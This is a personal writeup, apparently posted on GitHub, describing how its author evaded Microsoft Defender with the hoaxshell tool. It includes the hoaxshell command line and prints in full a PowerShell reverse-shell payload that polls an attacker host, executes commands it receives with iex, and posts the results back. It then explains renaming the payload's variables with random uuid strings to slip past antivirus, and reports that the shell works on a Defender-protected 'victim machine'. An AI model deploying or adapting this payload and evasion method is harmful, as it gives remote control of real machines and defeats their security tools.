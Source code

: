 # hoaxshell

Feb 23,

So I just want to share my writeup because I've been trying to bypass
defender for sometime now and this is the first time I Officially bypassed
Defender , I've spent countless hours obfuscating my powershell
command using unicorn, invoke-obfuscation and chimera , I would highly
suggest to watch t3l3machus it definitely helped me to bypass
defender, thank you brother

![2-1](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/2b438ba0-2e94-4c58-9e86-4a95ab128d5f)

# 1. Create a shell using Hoaxshell

I used this command,
```
./hoaxshell.py -s 192.168.50.46 -r -H 'Authorization'
```

-r = raw payload
-H = additional hoaxshell tag to bypass defender


# 2. and then it will spit out this shell here

```
$s='192.168.50.46:8080';$i='db6a3b05-dc656d46-1fb446ac';$p='
[http://';$v=Invoke-WebRequest](http://';$v=Invoke-WebRequest) -UseBasicParsing -Uri $p$s/db6a3b05 -
Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -
UseBasicParsing -Uri $p$s/dc656d46 -Headers
@{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=iex $c -
ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;
$t=Invoke-WebRequest -Uri $p$s/1fb446ac -Method POST -Headers
@{"Authorization"=$i} -Body
([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

![2-2](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/3bde52e7-7870-4b65-9a04-b0f687e34683)


this raw payload would be flagged down by microsoft so I used variable
substitution I learned from t3l3machu

# 3.Using python I used uuid module as well to create random strings

python commands I used to spit out 10 random strings

import uuid
uuid.uuid4().hex
for i in range(10):
uuid.uuid4().hex


![2-3](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/0552328b-5e21-4b7b-b59f-d6d3b180066f)



# 4. and then I opened sublime text to edit some variables ,
I changed 7 variables from the raw payload before, to look like this,


![2-4](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/9789c167-9a55-4b5e-af13-92dc7a6dfd8b)


# 5. and then I tested it in my victim machine with Microsoft Defender
active , and it WORKS!!!


![2-5](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/4b857298-8967-4d0d-be16-d95955772431)


I waited for 15mins to check if I would be disconnected.... I noticed that I
am not getting disconnected even when I am executing commands like
ipconfig,sysinfo,whoami etc... , The only time I got disconnected was
when I created a file in the desktop folder

![2-6](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/21268880-ba81-46e8-89ef-155e251011be)


However, I got disconnected a few minutes I created a text file inside a desktop folder..
I think thats it for hoaxshell for now and will try some other command and control shell 

# Thank you for reading
